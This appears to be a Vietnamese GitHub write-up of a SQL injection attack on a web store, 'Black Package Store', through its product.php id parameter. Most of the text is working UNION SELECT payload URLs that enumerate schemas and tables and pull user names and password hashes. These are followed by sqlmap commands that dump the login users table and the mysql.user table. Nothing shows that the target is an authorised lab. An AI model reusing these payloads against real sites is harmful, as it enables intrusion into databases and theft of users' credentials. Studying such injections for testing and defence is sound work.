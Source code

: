 # TỔNG QUAN # 
Kiểm tra trên web "Black Package Store" `https://blackpackagestore.com/product.php?id=72`

![image](https://github.com/user-attachments/assets/df34c6d3-c54f-4b61-a8d8-c942b15b4122)

## CÁC BƯỚC

* [Dò tìm số cột](#dò-tìm-số-cột)
* [Kiểm tra database, version, user](#kiểm-tra-database-version-user)
* [Trích xuất cơ sở dữ liệu](#trích-xuất-cơ-sở-dữ-liệu)
* [Sử dụng `sqlmap`](#sử-dụng-sqlmap)

## Dò tìm số cột

![image](https://github.com/user-attachments/assets/fd126029-74d6-4b5d-843e-aa1ef90ca9bd)

![image](https://github.com/user-attachments/assets/1dae9e7c-ede6-497c-bd76-4927cd8affc5)

![image](https://github.com/user-attachments/assets/3d4a301c-ba81-467e-a6a6-8014fc79e6f1)

## Kiểm tra database, version, user 

`https://blackpackagestore.com/product.php?id=72+UNION+ALL+SELECT+1,2,3,4,user(),6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30`

![image](https://github.com/user-attachments/assets/9fd803ab-520e-4c15-91c6-311e91b50589)

`https://blackpackagestore.com/product.php?id=72+UNION+ALL+SELECT+1,2,3,4,database(),6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30`

![image](https://github.com/user-attachments/assets/ea00b3ed-b953-4291-bde2-d0e5f1020c4d)

`https://blackpackagestore.com/product.php?id=72+UNION+ALL+SELECT+1,2,3,4,version(),6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30`

![image](https://github.com/user-attachments/assets/3bfea2e5-184f-46a7-960c-96dcc4c28024)

## Trích xuất cơ sở dữ liệu

**1. Liệt kê các database**

`https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,group_concat(0x7c,schema_name,0x7c),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+from+information_schema.schemata`

![image](https://github.com/user-attachments/assets/3632da54-d00c-4ccb-9c56-6ec40fa147c9)

**2. Liệt kê các bảng**

`https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,gRoUp_cOncaT(0x7c,table_name,0x7C),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+fRoM+information_schema.tables+wHeRe+table_schema='login'`

![image](https://github.com/user-attachments/assets/998b38ce-8ccb-4b1b-b67a-94892b82c483)

**3. Liệt kê các cột trong bảng**

`https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,gRoUp_cOncaT(0x7c,column_name,0x7C),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+fRoM+information_schema.columns+wHeRe+table_name=%27users%27`

![image](https://github.com/user-attachments/assets/56202ebd-5494-4202-902c-8bcce97b7699)

**4. Trích xuất dữ liệu bất kì**
`https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,user_name,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+from+users`

![image](https://github.com/user-attachments/assets/ae785d98-fb82-48b3-b93f-2db8573a8b2b)

`https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,user_password_hash,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+from+users`

![image](https://github.com/user-attachments/assets/21f2d6bf-6f0e-40b0-a00e-1d82d634f08e)

## Sử dụng `sqlmap`

**1. Trích xuất database:**

`sqlmap -u https://blackpackagestore.com/product.php?id=72 --dbs`

![image](https://github.com/user-attachments/assets/c5c25908-7213-447b-8c11-74e926545840)

**2. Tìm kiếm thông tin về username, password, tài khoản sysadmin**

`sqlmap -u https://blackpackagestore.com/product.php?id=72 -D login --tables`

![image](https://github.com/user-attachments/assets/2127b404-259e-417a-94e4-722aec4c55b3)

`sqlmap -u https://blackpackagestore.com/product.php?id=72 -D login -T users -C user_name --dump`

![image](https://github.com/user-attachments/assets/d9f17e4d-25ef-4890-ac4a-bf44a344b327)

sqlmap -u https://blackpackagestore.com/product.php?id=72 -D login -T users -C user_password_hash --dump`

![image](https://github.com/user-attachments/assets/fe22e570-f0ce-463b-a7e3-ea2bc8165b7f)

`sqlmap -u https://blackpackagestore.com/product.php?id=72 -D mysql --tables`

![image](https://github.com/user-attachments/assets/52a6f9ab-eb0d-4a26-9dcb-f3b508b81e3b)

`sqlmap -u https://blackpackagestore.com/product.php?id=72 -D mysql -T user --columns`

![image](https://github.com/user-attachments/assets/2054d2a2-1b16-4880-a56e-c776fda75c70)

![image](https://github.com/user-attachments/assets/0709a901-ee5c-47ef-95ad-a21e66f6de02)

`sqlmap -u https://blackpackagestore.com/product.php?id=72 -D mysql -T user -C Host,User,plugin --dump`

![image](https://github.com/user-attachments/assets/394ed735-6352-49a4-b918-61cc6fab1593)

